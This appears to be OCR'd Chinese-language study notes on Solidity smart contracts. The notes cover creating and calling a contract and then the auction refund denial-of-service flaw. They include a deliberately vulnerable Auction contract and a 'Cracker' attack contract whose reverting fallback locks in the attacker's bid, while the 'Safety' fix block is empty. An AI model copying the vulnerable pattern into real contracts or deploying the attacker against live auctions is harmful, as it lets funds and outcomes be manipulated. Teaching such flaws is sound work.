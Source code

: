 * function 創建和呼叫 contract 
```javascript
contract Example{
    mapping (address => uint) public balances;
    function update(uint _value) public {
        balances[msg.sender] = _value;
    }       
}
contract Sample{
    function show() public{
        Example e = new Example(); //宣告新的Contract
        e.update(100);
        return e.balances(this); //balances為getter function，所以改用()而不是[]
    }
}

```



提供三種迴圈判斷
`if`、`while`、`for`



## 安全問題
1. Withdraw 問題
這類情況發生在於，Auction Contract拍賣合約，把退錢的function和投標的function寫在一起時，容易產生的安全問題
問題在於`.transfer()`會直接呼叫對應address的 fallback function，如果Cracker以contract address 投標，並且在contract fallback function動手腳，像是加入`revert()`，那後續投標價格高的人會一直trigger `revert()`，導致Cracker成為投標最高的人
所以最安全的解法是投標和退錢function分開處理，拆開來寫的意思，投標不受影響，Cracker就算用同樣的方式，會是他的損失，因為沒辦法拿回錢

* Risky 
```javascript
pragma solidity^0.4.25;

contract Auction{
    address HighestBidder;
    uint256 HighestBid;

    function bid() public payable{
        
        require(msg.value > HighestBid);
        
        //退錢給上一個出價最高的買家
        HighestBidder.transfer(HighestBid);
        
        //更新狀態
        HighestBid = msg.value;
        HighestBidder = msg.sender;

    }
}

contract Cracker{
    function () public payable{
        revert();
    }
    function hack(address _contract) public payable returns(bool){
        bytes4 methodId = bytes4(keccak256("bid()")); 
        
        require(_contract.call.value(1 ether)(methodId)); //如果回傳false就throw
    }
}
```
* Safety
```javascript
```